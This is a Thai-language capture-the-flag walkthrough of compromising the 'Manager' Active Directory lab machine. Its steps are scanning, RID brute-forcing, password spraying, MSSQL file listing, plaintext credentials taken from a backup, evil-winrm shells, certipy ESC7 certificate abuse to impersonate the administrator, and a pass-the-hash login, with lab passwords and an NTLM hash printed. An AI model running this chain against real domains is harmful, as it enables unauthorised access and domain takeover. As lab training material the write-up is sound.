







# Recon

```bash
sudo ../Tools/scan.sh 10.10.11.236
[sudo] password for kali: 
[*] Running rustscan...
[*] Running nmap on ports: 53,80,88,135,139,389,445,464,593,636,1433,3268,3269,5985,9389,49667,49689,49690,49691,49725,49743
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-02 04:05 EDT
Nmap scan report for 10.10.11.236
Host is up (0.035s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: Manager
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-06-02 14:44:40Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-06-02T14:46:12+00:00; +6h38m37s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.manager.htb
| Not valid before: 2024-08-30T17:08:51
|_Not valid after:  2122-07-27T10:31:04
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-06-02T14:46:11+00:00; +6h38m36s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.manager.htb
| Not valid before: 2024-08-30T17:08:51
|_Not valid after:  2122-07-27T10:31:04
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2025-06-02T14:43:14
|_Not valid after:  2055-06-02T14:43:14
| ms-sql-ntlm-info: 
|   10.10.11.236:1433: 
|     Target_Name: MANAGER
|     NetBIOS_Domain_Name: MANAGER
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: manager.htb
|     DNS_Computer_Name: dc01.manager.htb
|     DNS_Tree_Name: manager.htb
|_    Product_Version: 10.0.17763
|_ssl-date: 2025-06-02T14:46:12+00:00; +6h38m37s from scanner time.
| ms-sql-info: 
|   10.10.11.236:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-06-02T14:46:12+00:00; +6h38m37s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.manager.htb
| Not valid before: 2024-08-30T17:08:51
|_Not valid after:  2122-07-27T10:31:04
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-06-02T14:46:11+00:00; +6h38m36s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.manager.htb
| Not valid before: 2024-08-30T17:08:51
|_Not valid after:  2122-07-27T10:31:04
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49689/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49690/tcp open  msrpc         Microsoft Windows RPC
49691/tcp open  msrpc         Microsoft Windows RPC
49725/tcp open  msrpc         Microsoft Windows RPC
49743/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-06-02T14:45:31
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: 6h38m36s, deviation: 0s, median: 6h38m35s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . 
Nmap done: 1 IP address (1 host up) scanned in 98.49 seconds

```

## TCP 80 
จากการตรวจสอบ HTTP ด้วย domain manager.htb ก็จะพบว่าไม่มีอะไรที่ดูน่าสนใจ 


## SMB 445 

ทำการตรวจสอบ SMB จะพบว่ามีข้อมูลไฟล์แชร์อยู่ ซึ่งจะเห็นได้ว่าไม่มีไฟล์หรือโฟลเดอร์ที่ไปต่อได้
```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ smbclient -L \\10.10.11.236\ -N

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.11.236 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
                                                                                                                                                            
┌──(kali㉿kali)-[~/Desktop]
```

แต่จากการที่เราสามารถเข้าไฟล์แชร์ได้โดยที่ไม่มี Credential ให้เราสันนิษฐานได้ว่าเป้าหมายอาจจะสามารถใช้ RID cycling และ List รายชื่อผู้ใช้บนเซิร์ฟเวอร์ได้ โดยที่เราสามารถใช้โมดูล “lookupsid” ของไลบรารี “Impacket” 
```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ impacket-lookupsid ice@manager.htb -no-pass | grep SidTypeUser | cut -d' ' -f2 | cut -d'\' -f2 | tr '[:upper:]' '[:lower:]' | tee users 

Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Brute forcing SIDs at manager.htb
[*] StringBinding ncacn_np:manager.htb[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-4078382237-1492182817-2568127209
498: MANAGER\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: MANAGER\Administrator (SidTypeUser)
501: MANAGER\Guest (SidTypeUser)
502: MANAGER\krbtgt (SidTypeUser)
512: MANAGER\Domain Admins (SidTypeGroup)
513: MANAGER\Domain Users (SidTypeGroup)
514: MANAGER\Domain Guests (SidTypeGroup)
515: MANAGER\Domain Computers (SidTypeGroup)
516: MANAGER\Domain Controllers (SidTypeGroup)
517: MANAGER\Cert Publishers (SidTypeAlias)
518: MANAGER\Schema Admins (SidTypeGroup)
519: MANAGER\Enterprise Admins (SidTypeGroup)
520: MANAGER\Group Policy Creator Owners (SidTypeGroup)
521: MANAGER\Read-only Domain Controllers (SidTypeGroup)
522: MANAGER\Cloneable Domain Controllers (SidTypeGroup)
525: MANAGER\Protected Users (SidTypeGroup)
526: MANAGER\Key Admins (SidTypeGroup)
527: MANAGER\Enterprise Key Admins (SidTypeGroup)
553: MANAGER\RAS and IAS Servers (SidTypeAlias)
571: MANAGER\Allowed RODC Password Replication Group (SidTypeAlias)
572: MANAGER\Denied RODC Password Replication Group (SidTypeAlias)
1000: MANAGER\DC01$ (SidTypeUser)
1101: MANAGER\DnsAdmins (SidTypeAlias)
1102: MANAGER\DnsUpdateProxy (SidTypeGroup)
1103: MANAGER\SQLServer2005SQLBrowserUser$DC01 (SidTypeAlias)
1113: MANAGER\Zhong (SidTypeUser)
1114: MANAGER\Cheng (SidTypeUser)
1115: MANAGER\Ryan (SidTypeUser)
1116: MANAGER\Raven (SidTypeUser)
1117: MANAGER\JinWoo (SidTypeUser)
1118: MANAGER\ChinHae (SidTypeUser)
1119: MANAGER\Operator (SidTypeUser)

```

หรือเราสามารถใช้คำสั่ง crackmapexec ได้ดังต่อไปนี้ 

```bash
netexec smb 10.10.11.236 -u guest -p '' --rid-brute

netexec smb 10.10.11.236 -u users -p users  --continue-on-success --no-brute
```


## TCP 1433 MSSQL

```bash
impacket-mssqlclient manager/operator:operator@manager.htb -windows-auth
```

หลังจากที่เราเข้ามาได้ เราสามารถใช้คำสั่ง xp_dirtree เพื่อแสดงไฟล์และโฟลเดอร์ได้ โดยเราสามารถตรวจสอบไฟล์ \inetpub\wwwroot

```sql
xp_dirtree c:\inetpub\wwwroot
```




จากข้อมูลข้าต้นทำให้เราเห็นว่ามีไฟล์ website-backup-27-07-23-old.zip ที่อยู่ภายใต้ www root ซึ่งเราสามารถ Download file ดังกล่าวมาได้ 

```bash
wget http://10.10.11.236/website-backup-27-07-23-old.zip
unzip ./website-backup-27-07-23-old.zip
```



จะเห็นได้ว่ามีข้อมูลของ user reven:R4v3nBe5tD3veloP3r!123
```xml
──(kali㉿kali)-[~/Desktop]
└─$ cat .old-conf.xml 
<?xml version="1.0" encoding="UTF-8"?>
<ldap-conf xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
   <server>
      <host>dc01.manager.htb</host>
      <open-port enabled="true">389</open-port>
      <secure-port enabled="false">0</secure-port>
      <search-base>dc=manager,dc=htb</search-base>
      <server-type>microsoft</server-type>
      <access-user>
         <user>raven@manager.htb</user>
         <password>R4v3nBe5tD3veloP3r!123</password>
      </access-user>
      <uid-attribute>cn</uid-attribute>
   </server>
   <search type="full">
      <dir-list>
         <dir>cn=Operator1,CN=users,dc=manager,dc=htb</dir>
      </dir-list>
   </search>
</ldap-conf>

```

```bash
for service in wmi winrm smb mssql rdp ssh ldap ftp vnc; do netexec $service manager.htb  -u 'raven' -p 'R4v3nBe5tD3veloP3r!123' ; done
```



จากผลลัพธ์ด้านบนจะเห็นว่าสามารถใช้ winrm ได้ 
# Shell as raven 

```bash
evil-winrm -i manager.htb -u raven -p 'R4v3nBe5tD3veloP3r!123'
```

```powershell
ls -recurse .
```

จากข้อมูลข้างต้นจะเห็นว่าไม่มีทางไปต่อ 

# ADCS 

```bash
python3 -m venv certipy-venv                
source certipy-venv/bin/activate
pip install certipy-ad 

certipy find -dc-ip 10.10.11.236 -ns 10.10.11.236 -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -vulnerable -stdout
```



จากผลที่ได้ระบุว่าผู้ใช้ Raven มีสิทธิ์ที่เป็นอันตรายเป็นอย่างยิ่ง ซึ่งการมีสิทธิ์ “ManageCA” เหนือกว่า (Certification Authority) ผู้ออกใบรับรอง นี่หมายความว่าด้วยการใช้ประโยชน์จากสถานการณ์ ESC7 เราอาจยกระดับสิทธิ์ของเราเป็น Domain Admin ได้ 

https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation.html#vulnerable-certificate-authority-access-control---esc7

เริ่มต้นเราจะต้องยกระดับสิทธิสำหรับการ Manage CA Permission ให้กับ Raven ก่อน 

```bash
┌──(certipy-venv)─(kali㉿kali)-[~/Tools]
└─$ certipy ca -ca manager-DC01-CA -add-officer raven -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: MANAGER.HTB.
[!] Use -debug to print a stacktrace
[*] Successfully added officer 'Raven' on 'manager-DC01-CA'
                                                                                                                                                            
┌──(certipy-venv)─(kali㉿kali)-[~/Tools]
└─$ certipy find -dc-ip 10.10.11.236 -ns 10.10.11.236 -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -vulnerable -stdout
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Finding issuance policies
[*] Found 13 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'manager-DC01-CA' via RRP
[*] Successfully retrieved CA configuration for 'manager-DC01-CA'
[*] Checking web enrollment for CA 'manager-DC01-CA' @ 'dc01.manager.htb'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : manager-DC01-CA
    DNS Name                            : dc01.manager.htb
    Certificate Subject                 : CN=manager-DC01-CA, DC=manager, DC=htb
    Certificate Serial Number           : 5150CE6EC048749448C7390A52F264BB
    Certificate Validity Start          : 2023-07-27 10:21:05+00:00
    Certificate Validity End            : 2122-07-27 10:31:04+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : MANAGER.HTB\Administrators
      Access Rights
        Enroll                          : MANAGER.HTB\Operator
                                          MANAGER.HTB\Authenticated Users
                                          MANAGER.HTB\Raven
        ManageCa                        : MANAGER.HTB\Administrators
                                          MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
                                          MANAGER.HTB\Raven
        ManageCertificates              : MANAGER.HTB\Administrators
                                          MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
                                          MANAGER.HTB\Raven
    [+] User Enrollable Principals      : MANAGER.HTB\Raven
                                          MANAGER.HTB\Authenticated Users
    [+] User ACL Principals             : MANAGER.HTB\Raven
    [!] Vulnerabilities
      ESC7                              : User has dangerous permissions.
Certificate Templates                   : [!] Could not find any certificate templates

```

จากการตรวจสอบจะเห็นว่า Raven มีสิทธิ ManageCA แล้ว 


## administrator certificate 


```bash
┌──(certipy-venv)─(kali㉿kali)-[~/Tools]
└─$ certipy req -ca manager-DC01-CA -target dc01.manager.htb -template SubCA -upn administrator@manager.htb -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: dc01.manager.htb.
[!] Use -debug to print a stacktrace
[!] DNS resolution failed: The DNS query name does not exist: MANAGER.HTB.
[!] Use -debug to print a stacktrace
[*] Requesting certificate via RPC
[*] Request ID is 19
[-] Got error while requesting certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
Would you like to save the private key? (y/N): y
[*] Saving private key to '19.key'
[*] Wrote private key to '19.key'
[-] Failed to request certificate

──(certipy-venv)─(kali㉿kali)-[~/Tools]
└─$ certipy ca -ca manager-DC01-CA -issue-request 19 -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: MANAGER.HTB.
[!] Use -debug to print a stacktrace
[*] Successfully issued certificate request ID 19


sudo ntpdate -s 10.10.11.236

certipy req -ca manager-DC01-CA -target dc01.manager.htb -retrieve 19 -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'

certipy auth -pfx administrator.pfx -dc-ip manager.htb
certipy auth -pfx administrator.pfx -dc-ip 10.10.11.236
```


# Shell as root 
```bash
evil-winrm -i manager.htb -u administrator -H ae5064c2f62317332c88629e025924ef
```
